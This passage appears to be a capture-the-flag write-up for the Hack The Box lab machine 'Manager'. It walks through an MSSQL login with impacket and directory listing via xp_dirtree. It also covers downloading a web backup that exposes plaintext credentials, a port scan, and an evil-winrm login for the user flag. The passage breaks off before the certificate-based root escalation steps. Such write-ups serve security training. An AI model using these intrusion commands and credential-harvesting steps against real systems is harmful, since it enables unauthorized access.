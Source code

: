`impacket-mssqlclient -p 1433 -windows-auth -dc-ip 10.10.11.236 "manager.htb/Operator:<password>"@10.10.11.236`

With xp_dirtree I was able to se some folders, the most interesting one was inetpub.

To navigate on it I had to use `c:\inetpub`

Here on the root of the website there was a zip backup of the website.

```
xp_dirtree c:\inetpub\wwwroot\website-backup-27-07-23-old.zip.
```

But how do I see it ? or download it ?

Just going to the site :
manager.htb/website-backup-27-07-23-old.zip then I just download it.


Inside of this zip, I found a hidden xml file with the user credentials

```
<user>raven@manager.htb</user>
<password>R4v3nBe5tD3veloP3r!123</password>
```

Then I use nmap to scan again and see if the ports 5985 or 5986 were open so I can connect via evil winrm

```
 nmap -sS -T2 -p 5985,5986 10.10.11.236
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-23 14:57 EDT
Nmap scan report for dc01.manager.htb (10.10.11.236)
Host is up (0.32s latency).

PORT     STATE    SERVICE
5985/tcp open     wsman
5986/tcp filtered wsmans

```
Then I just connect
```
evil-winrm -u raven -p 'R4v3nBe5tD3veloP3r!123' -i 10.10.11.236 -P 5985
```

I went to the desktop and finally get the user  flag.

### Root:

Finally to get the root flag I went to the hacktricks website and reading some and talking with some friends I was able to see the vulnerability, It was regarding to a misconfiguration of certificates:

[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2 "https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2")


So, the process was like this:
